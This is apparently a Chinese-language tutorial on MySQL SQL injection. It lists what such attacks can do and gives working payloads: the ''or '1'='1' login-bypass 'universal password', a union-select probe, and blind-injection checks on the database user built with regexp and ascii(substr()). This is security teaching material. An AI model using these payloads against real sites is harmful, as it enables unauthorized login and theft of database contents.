 - 数据库信息泄露：数据库中存放的用户的隐私信息的泄漏。
- 网页篡改：通过操作数据库对特定网页进行篡改。
- 网站被挂马，传播恶意软件：修改数据库一些字段的值，嵌入网马链接，进行挂马攻击。
- 数据库被恶意操作：数据库服务器被攻击，数据库的系统管理员账户被篡改。
- 服务器被远程控制，被安装后门。经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统。
- 破坏硬盘数据，瘫痪全系统


## mysql注入语句
### mysql注入语句-mysql介绍

> MySQL是一个关系型数据库管理系统，由瑞典MySQL AB 公司开发，目前属于 Oracle 旗下产品。MySQL 是最流行的关系型数据库管理系统之一，在 WEB 应用方面，MySQL是最好的 RDBMS (Relational Database Management System，关系数据库管理系统) 应用软件。
> MySQL是一种关系数据库管理系统，关系数据库将数据保存在不同的表中，而不是将所有数据放在一个大仓库内，这样就增加了速度并提高了灵活性。
> MySQL所使用的 SQL 语言是用于访问数据库的最常用标准化语言。MySQL 软件采用了双授权政策，分为社区版和商业版，由于其体积小、速度快、总体拥有成本低，尤其是开放源码这一特点，一般中小型网站的开发都选择 MySQL 作为网站数据库。

-- 摘自百度百科  


### mysql注入语句-万能密码

	# 登录处正常的SQL语句：
	select * from users where username= 'admin' and pwd = 'pass';

	# 万能密码：
	'or '1' = '1 

	# 带入用户输入参数
	select * from users where username= ''or '1' = '1' and pwd = ''or '1' = '1';

	第一个 or 前面为 false 后面为 true -> true
	and 前面为 true 后面为 false -> false
	第二个 or 前面为 false 后面为 true -> true

### mysql注入语句-注入语句例子

	# 利用构造1=2错误执行union后面的语句
	and 1=2 union select 1,2,3--

	# 利用mysql正则表达式为匹配当前用户是否为ro开头
	select user() regexp '^ro'

	# 查询当前用户的ascii码是否为114（r）
	ascii(substr(substr(select user()),1,1))=114
